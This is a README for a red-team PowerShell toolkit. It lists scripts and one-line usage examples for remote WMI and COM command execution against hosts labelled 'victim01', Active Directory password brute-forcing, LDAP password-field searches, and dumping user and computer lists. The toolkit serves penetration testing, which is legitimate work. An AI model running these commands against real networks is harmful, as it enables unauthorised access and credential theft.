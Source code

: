 # Red Team Powershell Scripts

```
Search-EventForUser.ps1: Powershell script that search through the Windows event logs for specific user(s)
Search-FullNameToSamAccount.ps1: Full name to SamAccountName
Search-UserPassword.ps1: Search LDAP for userPassword field
Remote-WmiExecute.ps1: Execute command remotely using WMI
Take-Screenshot.ps1: Take a screenshot (PNG)
Get-BrowserHomepage.ps1: Get browser homepage
Get-IEBookmarks.ps1: List all Internet Explorer bookmarks URLs
Invoke-ADPasswordBruteForce.ps1: Test users password
Utility.ps1: Contain several cmdlets
Remote-COMShellExec.ps1: Execute command remotely using COM object 
COM-Utility.ps1: Various COM objects for remote command execution
```

# Search-EventForUser.ps1 Usage
```
module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser "MrUn1k0d3r"

module-import .\Search-EventForUser.ps1; "MrUn1k0d3r" | Search-EventForUser

module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser MrUn1k0d3r -ComputerName DC01

module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser MrUn1k0d3r -FindDC true

module-import .\Search-EventForUser.ps1; "god", "mom" | Search-EventForUser -FindDC true

module-import .\Search-EventForUser.ps1; "god", "mom" | Search-EventForUser -FindDC true -Username DOMAIN\admin -Password "123456"
```
The -User parameter support single user or a list of users from pipeline

# Search-FullNameToSamAccount.ps1 Usage
```
module-import .\Search-FullNameToSamAccount.ps1; Search-FullNameToSamAccount -Filter *god*

module-import .\Search-FullNameToSamAccount.ps1; "god", "mom" | Search-FullNameToSamAccount
```

# Search-UserPassword.ps1 Usage
```
module-import .\Search-UserPassword.ps1; Search-UserPassword -Username *god*

module-import .\Search-UserPassword.ps1; "god", "mom" | Search-UserPassword
```

# Remote-WmiExecute.ps1 Usage
```
module-import .\Remote-WmiExecute.ps1; Remote-WmiExecute -ComputerName victim01 -Payload "cmd.exe /c whoami"
```

# Take-Screenshot.ps1 Usage
```
module-import .\Take-Screenshot.ps1; Take-Screenshot -Path C:\test.png
```

# Get-BrowserHomepage.ps1 Usage
```
module-import .\Get-BrowserHomepage.ps1; Get-BrowserHomepage
```

# Get-IEBookmarks.ps1 Usage
```
module-import .\Get-IEBookmarks.ps1; Get-IEBookmarks
```

# Invoke-ADPasswordBruteForce.ps1 Usage
```
module-import .\Invoke-ADPasswordBruteForce; Invoke-ADPasswordBruteForce -Username "mr.un1k0d3r" -Password "password"

module-import .\Invoke-ADPasswordBruteForce; "neo","morpheus" | Invoke-ADPasswordBruteForce -Password "password"

module-import .\Invoke-ADPasswordBruteForce; "neo","morpheus" | Invoke-ADPasswordBruteForce -Password "password" -Domain MATRIX
```

# Remote-COMShellExec.ps1
```
module-import .\Remote-COMShellExec.sp1; Remote-COMShellExec -ComputerName 192.168.1.1 -Command "cmd.exe" -Argument "/c whoami"
```
# Utility.ps1

Contain de following cmdlets
```
Search-EventForUser
Search-FullNameToSamAccount
Ldap-GetProperty
Search-UserPassword
Dump-UserEmail
Dump-Computers
Dump-UserName
```

# COM-Utility.ps1

Contain de following cmdlets
```
Invoke-COM-ScheduleService
Invoke-COM-XMLHTTP
Invoke-COM-ShellBrowserWindow
Invoke-COM-WindowsScriptHost
Invoke-COM-ProcessChain 
Invoke-COM-ShellApplication
```

# Todo

1. Remote-WmiExecute.ps1:
  * Improve errors handling (Access Denied etc...)
2. Take-Screenshot.ps1:
  * Handle multiple screens

# Credit
Mr.Un1k0d3r RingZer0 Team
